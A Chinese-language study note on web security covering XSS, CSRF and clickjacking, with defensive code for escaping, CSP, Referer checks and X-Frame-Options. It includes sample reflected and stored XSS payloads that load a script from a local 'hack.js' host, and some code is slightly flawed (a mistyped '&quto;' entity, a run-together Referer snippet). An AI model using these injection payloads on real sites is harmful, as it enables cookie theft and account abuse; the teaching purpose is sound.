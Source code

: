 # 网络安全
## 一、常见 web 攻击及其防御手段
1. XSS (Cross Site Scripting) 跨站脚本攻击
    - 1.1 定义：向存在安全漏洞的网站运行非法的非本站点的HTML标签或Javascript
    - 1.2 危害
        - 利用虚假输入表单骗取用户个人信息
        - 利用脚本窃取用户 cookie
    - 1.3 攻击方式
        - 反射型：url 参数直接注入
            - 分析：比如，将用户的浏览器url地址变成： `http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>`，有时，为了让后面的网址没有那么可疑，攻击者会进行短域名伪造 <https://dwz.cn/>
        - 存储性：存储到 DB 后读取时注入
            - 分析: 比如，攻击者在某个表单输入 `我来了<script src="http://localhost:4000/hack.js"></script>`
    - 1.4 防御手段
        - 1.4.1 ejs转义
            - 前端方面
                - 一些模板引擎框架自带 ejs 转义
                - 浏览器默认开启 ejs 转义
            - 后端方面: 用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
                - 黑名单: 转义所有字符
                ```javascript
                function escape(str) { 
                    str = str.replace(/&/g, '&amp;') 
                    str = str.replace(/</g, '&lt;') 
                    str = str.replace(/>/g, '&gt;') 
                    str = str.replace(/"/g, '&quto;') 
                    str = str.replace(/'/g, '&#39;') 
                    str = str.replace(/`/g, '&#96;') 
                    str = str.replace(/\//g, '&#x2F;') 
                    return str 
                }
                ```
                - 白名单：有需要的格式不进行转义
                ```javascript
                const xss = require('xss')
                let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>')
                console.log(html)
                // <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
                ```
        - 1.4.2 CSP(Content Security Policy) 内容安全策略
            - 定义：CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执
            - 方法
            ```javascript
            ctx.set('Content-Security-Policy', "default-src 'self'")
            // 只允许加载本站资源
            Content-Security-Policy: default-src 'self'
            // 只允许加载 HTTPS 协议图片
            Content-Security-Policy: img-src https://*
            // 不允许加载任何来源框架
            Content-Security-Policy: child-src 'none'
            ```
        - 1.4.3 HttpOnly Cookie
2. CSRF(Corss Site Request Forgery) 跨站请求伪造
    - 2.1 定义：攻击者利用用户已登陆的身份，在用户不知情的情况下，以用户的名义完成非法操作
    - 2.2 危害
        - 利用用户登录态，用户不知情
        - 冒充用户发帖
        - 完成业务请求（比如盗取用户资金）
    - 2.3 攻击方式
        - 比如在用户已登陆的网页并没有退出的情况下，诱导用户点击某个链接，然后在该网页嵌入一个`<iframe>`，`<iframe>`里面写着一些伪造请求的逻辑
    - 2.4 防御手段（以下四种都是在后台实现）
        - 2.4.1 Referer Check：后台通过 Referer Check检查请求的来源网址，如果不是用户的网址，则拒绝。（但是：Https不发送referer）
        ```javascript
        app.use(async (ctx, next) => { 
            await next() const referer = ctx.request.header.referer 
            console.log('Referer:', referer) 
        })
        ```
        - 2.4.2 验证码
        - 2.4.3 cookie值进行hash: 攻击者在访问信任网站A时，虽然浏览器可以在请求中带上 cookie ,但是网站A确不仅仅通过cookie来判断用户身份，同时通过用户发送过来的内容中的伪随机数来判断请求真正是用户发送的。攻击者在请求A的时候，不能在提交的内容中产生伪随机数
        - 2.4.4 禁止第三方携带cookie
3. click jacking 点击劫持
    - 3.1 定义：点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。即攻击者不盗取用户任何信息，只是诱导用户完成某个操作（比如点赞）
    - 3.2 防御手段
        - 前端方面
        ```html
        <head> 
            <style id="click-jack"> 
            html { display: none !important; } 
        </style> 
        </head> 
        <body> 
            <script>
            // self是当前窗口自身的引用，与window属性等价
            // top 返回顶层窗口，即浏览器窗口
            if (self == top) { 
                 var style = document.getElementById('click-jack') 
                 document.body.removeChild(style) 
            } else { 
                top.location = self.location 
            } 
            // 以上代码的作用就是当通过 iframe 的方式加载页面时，攻击者的网页直接不显示所有内容了。
            </script> 
        </body>
        ```
        - 后端方面 X-FRAME-OPTIONS
            - X-FRAME-OPTIONS 是一个 HTTP 响应头，在现代浏览器有一个很好的支持。这个 HTTP 响应头 就是为了防御用 iframe 嵌套的点击劫持攻击。
        ```javascript
        // DENY，表示页面不允许通过 iframe 的方式展示
        // SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
        // ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
        ctx.set('X-FRAME-OPTIONS', 'DENY')
        ```
## 二、防御手段
